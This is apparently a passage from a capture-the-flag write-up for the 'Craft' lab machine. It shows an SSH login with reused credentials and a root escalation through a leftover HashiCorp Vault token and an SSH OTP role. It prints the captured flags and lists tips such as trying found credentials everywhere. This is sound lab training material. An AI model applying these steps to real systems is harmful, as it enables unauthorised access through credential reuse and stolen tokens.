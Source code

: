 ```
Enter passphrase for key 'keys/ssh_gilfoyle':
gilfoyle@craft:~$ 
```
<br />

And... we're in. So much credential re-use. Guys, get a password manager, seriously. Let's get the user flag now.
```
gilfoyle@craft:~$ cat user.txt 
bbf4b0cadfa3d4e6d0914c9cd5a612d4
```
<br />

## Getting Root
To start, let's take a look at Gilfoyle's home directory. Interesting, a file called .vault-token  We've seen mentions of a "vault" around the git repo and we found a vhost with the name "vault". Let's take a look at the files we saw on the git repo.
```
vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```
<br />

Interesting. Seems like there is some sort of SSH system here. I think it's time to do some Googling and see what we can find out about this service.

So after a bit of research it's pretty obvious that this is set up as a OTP authentication system for SSH. You can read more about it [here](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html). It seems that this one is set up for SSH'ing in as root, nice. Let's give this a go.
```
gilfoyle@craft:~$ vault ssh -role root_otp -mode otp root@10.10.10.110
OTP for the session is: 91220244-1b96-5827-2533-9e05874b36b2
Password:
root@craft:~#
```
<br />

Perfect, it worked. Let's get the root flag.
```
root@craft:~# cat root.txt 
831d64ef54d92c1af795daae28a11591
```
<br />

## Lessons Learned
 * People re-use passwords, like, a lot. So when you find credentials, try them everywhere.
 * Always leverage bad coding practices, like the use of "eval", and "exec", etc.
 * People commonly commit credentials to git repos and later remove them, not realising they're still in the commit history.

